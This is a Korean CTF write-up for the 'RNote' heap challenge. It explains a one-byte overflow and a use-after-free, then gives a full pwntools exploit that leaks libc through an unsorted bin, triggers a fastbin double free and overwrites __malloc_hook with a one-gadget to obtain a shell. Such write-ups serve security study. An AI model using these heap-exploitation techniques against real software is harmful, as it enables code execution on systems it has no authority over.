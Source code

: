 title을 입력받는 부분에서 one-byte overflow 발생, 그리고 free할 떄 데이터를 초기화 해주지 않아서 uaf가 발생함.

그러면 unsorted bin을 만들어서 show 부분에서 8바이트 꽉채우면 bk가 출력되는데 이건 main_arena + 88이다. 그럼 libc leak 성공띠

그담엔 one-byte overflow를 이용해서 note의 주소를 1바이트 바꿀 수 있는데, 1~3번째 청크를 할당하고 3번째 청크의 노트를 1번째 노트 주소로 바꿔주면 dfb 트리거 가능. 그러면 __malloc_hook 덮어서 쉘 딸수있다

```python
from pwn import *
p = process("./RNote")
elf = ELF("./RNote")
libc = elf.libc

def addNewNote(size, title, content):
    p.sendafter("Your choice: ", "1")
    p.sendafter("size: ", str(size))
    p.sendlineafter("title: ", title)
    p.sendlineafter("content: ", content)
def deleteANote(idx):
    p.sendlineafter("Your choice: ", "2")
    p.sendlineafter("delete: ", str(idx))

def showANote(idx):
    p.sendafter("Your choice: ", "3")
    p.sendafter("show: ", str(idx))

if __name__ == "__main__":
    addNewNote(256, "a" * 4, "b" * 4)
    addNewNote(256, "c" * 4, "d" * 4)
    pause()
    deleteANote(0)
    addNewNote(256, "e" * 4, "b" * 7)
    showANote(0)
    p.recvuntil("b" * 7 + "\n")
    libc_base = u64(p.recv(6).ljust(8, "\x00")) - 88 - 0x10 - libc.symbols['__malloc_hook']
    __malloc_hook = libc_base + libc.symbols['__malloc_hook']
    oneshot = libc_base + 0xf1207
    p.info("libc_base : " + hex(libc_base))
    p.info("__malloc_hook : " + hex(__malloc_hook))
    deleteANote(0)
    deleteANote(1)
    deleteANote(2)

    addNewNote(96, "a" * 4, "b" * 4)
    addNewNote(96, "b" * 4, "c" * 4)
    addNewNote(96, "c" * 16 + "\x10", "b" * 4)

    deleteANote(0)
    deleteANote(1)
    deleteANote(2)

    addNewNote(96, "a", p64(__malloc_hook - 0x23))
    addNewNote(96, "b", "d")
    addNewNote(96, "c", "e")
    addNewNote(96, p64(oneshot), "a" * 19 + p64(oneshot))
    p.interactive()
```





